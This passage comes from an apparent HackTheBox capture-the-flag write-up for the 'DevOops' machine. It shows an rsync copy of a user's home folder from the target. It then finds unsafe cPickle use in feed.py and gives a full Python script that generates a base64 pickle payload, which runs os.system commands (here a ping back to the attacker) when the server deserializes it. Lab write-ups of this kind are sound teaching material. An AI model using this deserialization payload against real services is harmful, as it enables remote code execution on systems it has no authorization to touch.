 # Source Code Analysis

To better debug the app we stop the python aplication and add the root ssh key on the authorized_keys, then start a rsync to copy the content of /home/roosa/ folder.

```sh
rsync -azP -i root@10.10.10.91:/home/roosa/* .
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2006:31:42.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2006:32:16.png)

Now we can start looking for vulnerabilities on the code

One thing that imediatelly caught my eye was the `cPickle` being imported in feed.py

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2006:34:42.png)

Looking on the feed.py we see that it's being used on the `NEWPOST` function

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2006:35:42.png)

So, let's use it to try to deserelialize python pickles

So we try to create a payload to ping us back

```py
#!/usr/bin/python

import cPickle
import sys
import os
import base64
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-ip','--ip', help='IP to ping', required=True)
args = parser.parse_args()

def payload():
        global COMMAND
        COMMAND = "ping -c5 %s" %(args.ip)
        class PickleRce(object):
                def __reduce__(self):
                        return (os.system,(COMMAND,))
        global comando
        comando = base64.b64encode(cPickle.dumps(PickleRce()))
        comando = str(comando)

payload()
print(comando)
```
